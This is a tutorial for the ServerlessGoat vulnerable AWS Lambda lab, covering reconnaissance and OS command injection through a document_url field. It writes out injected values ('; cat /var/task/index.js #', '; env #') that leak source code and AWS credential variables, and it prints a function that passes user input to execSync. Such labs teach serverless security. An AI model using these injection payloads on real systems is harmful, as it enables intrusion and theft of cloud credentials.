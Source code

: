 ## ServerlessGoat: Lessons ##

### Lesson 1: Information Gathering ###
We begin our journey into serverless security by gathering some reconnaissance on the application. At first sight malicious users won't know that they are facing a serverless application.

#### Option 1 #### 
If the application is exposed through AWS API Gateway, the URL might have the following format:
https://{string}.execute-api.{region}.amazonaws.com/{stage}/...

#### Option 2 ####
If the application is exposed through AWS API Gateway, HTTP Response headers might contain header names such as: `x-amz-apigw-id`, `x-amzn-requestid`, `x-amzn-trace-id`

#### Option 3 ####
If the developer left unhandled exceptions and verbose error messages, these messages might contain sensitive information, which points to the fact that this is an AWS Lambda serverless application. Try to invoke the API of the convert form, using an HTTP get request, and without the `document_url` parameter in the Query string: ```https://eqfh35ixqj.execute-api.us-east-1.amazonaws.com/Prod/api/convert```

This will generate the following stack trace:
```
TypeError: Cannot read property 'document_url' of null
at log (/var/task/index.js:9:49)
at exports.handler (/var/task/index.js:25:11)
```
Looking at the stack trace, we see that the application is located in the /var/task directory, which is where AWS Lambda stores and executes your Lambda function. We also see `exports.handler`, which is a very common way to name serverless functions (i.e. the function name is `handler`, and it is defined inside `index.js`).

### Lesson 2: Reverse Engineering The Lambda Function ###
The next obvious step, is to try and gain access to the source code of the Lambda function, in order to reverse engineer and discover additional weaknesses. For this step, we will try to check whether the function is vulnerable to OS command injection.

We will blindly probe for OS command injection using a common time-based probing method - i.e. by invoking the sleep shell command.

In the URL field, enter the following value in the URL field: `https://www.puresec.io/hubfs/document.doc` - this will return the converted text. Now try the following: `https://www.puresec.io/hubfs/document.doc; sleep 1 #` and hit 'submit'. The function will run, albeit will return some garbled text. Next, we will try with a really long sleep value, which will force the function to hit the timeout configured: `https://www.puresec.io/hubfs/document.doc; sleep 5000 #`

Error message: ```{"message": "Internal server error"}```

Now we know that the application is vulnerable to OS command injection through the `document_url` parameter, and we can move on to extract its source code, by sending the following value in the URL field: `https://foobar; cat /var/task/index.js #`

This should return the source code of the function:
```
const child_process = require('child_process'); const AWS = require('aws-sdk'); const uuid = require('node-uuid'); async function log(event) { const docClient = new AWS.DynamoDB.DocumentClient(); let requestid = event.requestContext.requestId; let ip = event.requestContext.identity.sourceIp; let documentUrl = event.queryStringParameters.document_url; await docClient.put({ TableName: process.env.TABLE_NAME, Item: { 'id': requestid, 'ip': ip, 'document_url': documentUrl } } ).promise(); } exports.handler = async (event) => { try { await log(event); let documentUrl = event.queryStringParameters.document_url; let txt = child_process.execSync(`curl --silent -L ${documentUrl} | ./bin/catdoc -`).toString(); // Lambda response max size is 6MB. The workaround is to upload result to S3 and redirect user to the file. let key = uuid.v4(); let s3 = new AWS.S3(); await s3.putObject({ Bucket: process.env.BUCKET_NAME, Key: key, Body: txt, ContentType: 'text/html', ACL: 'public-read' }).promise(); return { statusCode: 302, headers: { "Location": `${process.env.BUCKET_URL}/${key}` } }; } catch (err) { return { statusCode: 500, body: err.stack }; } };
```

There's a lot to be learned from the source code:
* The application uses the AWS DynamoDB NoSQL database
* The application uses a Node.js package called node-uuid
* The application stores sensitive user information (IP address and document URL) inside the DynamoDB table, who's name is defined in the `TABLE_NAME` environment variable
* We see the cause for the OS command injection - using untrusted user input in the `child_process.execSync()` call
* The output of API invocations is stored inside an S3 bucket, which is also stored inside an environment variable - `BUCKET_URL`

### Lesson 3: Digging For Gold Inside Environment Variables ###
Let's grab the data from the environment variables by running the `env` command - in the URL field, type: `https://foobar; env #`

{Partial Values}
```
AWS_SESSION_TOKEN=XXXXXXXXXXXXX
TABLE_NAME={dynamo_table_name}
AWS_SECRET_ACCESS_KEY=XXXXXXXXXXXXX
BUCKET_NAME={bucket_name}
AWS_ACCESS_KEY_ID=XXXXXXXXXXXXX
```

To be continued...
